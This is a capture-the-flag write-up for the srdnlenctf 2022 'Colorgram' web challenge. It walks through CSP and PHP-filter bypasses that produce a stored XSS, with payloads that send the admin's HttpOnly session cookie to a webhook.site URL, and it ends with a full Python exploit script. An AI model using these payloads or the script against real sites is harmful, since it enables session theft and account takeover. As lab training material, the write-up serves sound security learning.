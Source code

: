 # srdnlenctf 2022

## Colorgram (0 solves)

> I hope the colorblind community doesn't get offended by this chall...
>
> Website: [http://colorgram.challs.srdnlen.it](http://colorgram.challs.srdnlen.it)
>
> Author: @takenX10

### Solution

By checking the source code (db/init.sql), we can see that the flag is inside the database in the password field of the admin user.
Reading the source code we can also see that the flag gets inserted in the session cookie of the admin, and you can read it by just decoding the jwt cookie.
So naturally, the objective becomes to obtain the admin cookie, even though it is httponly.
By checking the source code (src/login.php), we can also see that **you can obtain the cookie by just making a POST request to /login.php while you are already logged in without sending any parameters**.
Now you need to make the admin do a POST request to login, then send the response to yourself -> so you need a really good XSS.
First of all, you can do an XSS on the description field, you need to bypass the CSP:

```ascii
Content-Security-Policy: default-src 'self' data: *; connect-src 'self'; object-src 'none';
```

To do that, we can use an iframe with the srcdoc tag, like this:

```html
<iframe srcdoc='<script src="data:text/javascript,alert(1)"></script>'></iframe>
```

Now, in order to insert the payload inside our user description we also need to bypass the php filter

```php
function validate_description($desc){
    $maxlength = 32;
    $finalstring = "";
    // Cut the string at the maxlength character
    for($i = 0; $i < $maxlength; $i++){
        $finalstring = $finalstring . $desc[$i];
    }
    $finalstring = urldecode($finalstring);
    $finalstring = str_replace("<","&lt;",$finalstring);
    $finalstring = str_replace(">","&gt;",$finalstring);

    return $finalstring;
}
```

- First of all, the maxlength is too strict, so to bypass it you can just pass the description as an array (`description[]=`)
- Then, we can see that the query gets decoded once more inside the code, so to bypass the `<` and `>` filter you need to url encode the character 2 times ([cyberchef](<https://cyberchef.org/#recipe=URL_Encode(false)Find_/_Replace(%7B'option':'Regex','string':'%253C'%7D,'%2525253C',true,false,true,false)Find_/_Replace(%7B'option':'Regex','string':'%253E'%7D,'%2525253E',true,false,true,false)&input=PGlmcmFtZSBzcmNkb2M9JzxzY3JpcHQgc3JjPSJkYXRhOnRleHQvamF2YXNjcmlwdCxhbGVydCgxKSI%2BPC9zY3JpcHQ%2BJz48L2lmcmFtZT4>))

```ascii
description[]=%25253Ciframe%20srcdoc='%25253Cscript%20src=%22data:text/javascript,alert(1)%22%25253E%25253C/script%25253E'%25253E%25253C/iframe%25253E
```

Now we can just make a POST to `http://challengeurl/login.php` and send the response to our webhook:

```html
<iframe
  srcdoc='<script src="data:text/javascript,fetch(`http://challengeurl/login.php`,{method:`POST`}).then(r=>r.text()).then(d=>location=`https://webhook.site/243cc977-cefe-4e31-ac1d-fa5ece996add?c=${d}`);"></script>'
></iframe>
```

And encode it with the same method as before, final payload for the description:

```ascii
description[]=%25253Ciframe%20srcdoc='%25253Cscript%20src=%22data:text/javascript,fetch(%60http://challengeurl/login.php%60,%7Bmethod:%60POST%60%7D).then(r=%25253Er.text()).then(d=%25253Elocation=%60https://webhook.site/243cc977-cefe-4e31-ac1d-fa5ece996add?c=$%7Bd%7D%60);%22%25253E%25253C/script%25253E'%25253E%25253C/iframe%25253E
```

Now we need to make the admin open our xss.
By checking the color parameter we can see it gets inserted without `"`, so we can just add a space and an onload tag to inject an xss inside the color page.
Now we need to bypass the filter:

```php
if(strlen($color) > 48){
    die('{"error":"color too long!"}');
}
if(preg_match('/[\x00-\x7E]/',$color)){
    if(preg_match('/(\[|\]|\$|\ |\n|\'|\"|\<|\>|\\|\x00|\t|\`|\{|\}|.*on.+=)/',$color)){
        die('{"error":"Invalid character found!"}');
    }
}
```

- %0C does the same thing of space
- we can make a string by casting a regex as a string (`(/account.php?name=sos/))`) instead of using `'` or `"`
- The final slash of the regex is inserted inside the parameter, so we need to call our account with a slash at the end
- To bypass the `on` filter, we can write `oN` or `On`
- With all this, we can make a window.open (shorter than `window.location` and does'n use `on`)

Final payload, barely inside the 48 characters limit:

```ascii
%250CoNload=window.open((/account.php?name=sos/))
```

The last thing to remember is that you should use the challenge url inside your fetch to make it work locally, but to make it work for the admin you should use the internal url `http://colorgram-app/`

Proof of concept below.

Flag: `srdnlen{N1ce_J0B_s0rry_f0r_th1s_X55_4nd_h77p0nly_bypass}`

### Exploit

```python
import requests

CHALLENGE_URL = "http://challengeurl"

# Insert your webhook here
WEBHOOK_URL = "https://webhook.site/7b0e414b-e360-4b7b-865f-4e628ce3307a"

# remember / at the end of the name
username = "sos/"
password = "SrdnlenBestTeam"
mail = "srdnlen@thebest"

# If false it will perform the registration for you, otherwise it will just log in
already_registered = False

# < and > will get url encoded 2 times, the payload will be sent as an array (description[]) automagically (line 36)
payload_description = """<iframe srcdoc='<script src="data:text/javascript,fetch(`http://colorgram-app/login.php`,{method:`POST`}).then(r=>r.text()).then(d=>location=`%s?c=${d}`);"></script>'></iframe>"""%WEBHOOK_URL

payload_color = f"%250CoNload=window.open((/account.php?name={username}))"

session = requests.session()

def register(username, password, email):
    url = f"{CHALLENGE_URL}/register.php"
    data = {"username": username, "email": email, "password": password, "description": "srdnlenisthebestctfteam"}
    return session.post(url, data=data, allow_redirects = False)

def login(username, password):
    url = f"{CHALLENGE_URL}/login.php"
    data = {"username": username, "password": password}
    return session.post(url, data=data, allow_redirects = False)

def change_description(username, new_description):
    url = f"{CHALLENGE_URL}/description.php?name={username}"
    data = {"description[]":new_description}
    # No data=data so that the description[] gets interpreted correctly
    return session.post(url, data, allow_redirects = False)

def report_color_to_admin(username, color):
    url = f"{CHALLENGE_URL}/report.php?name={username}"
    data = {"admin_request":color}
    return session.post(url, data=data, allow_redirects = False)

def main():
    global payload_description
    if(already_registered):
        print("Logging in...")
        print(login(username, password).text)
    else:
        print("Registering...")
        print(register(username, password, mail).text)

    # double url encode char and make list
    payload_description = payload_description.replace("<","%253C")
    payload_description = payload_description.replace(">","%253E")
    print("Changing description...")
    print(change_description(username, payload_description).text)
    print("Reporting color to admin...")
    print(report_color_to_admin(username, payload_color).text)
    print("Now check your webhook, get the jwt inside the request and decode it (https://jwt.io/)")

if __name__ == "__main__":
    main()
```

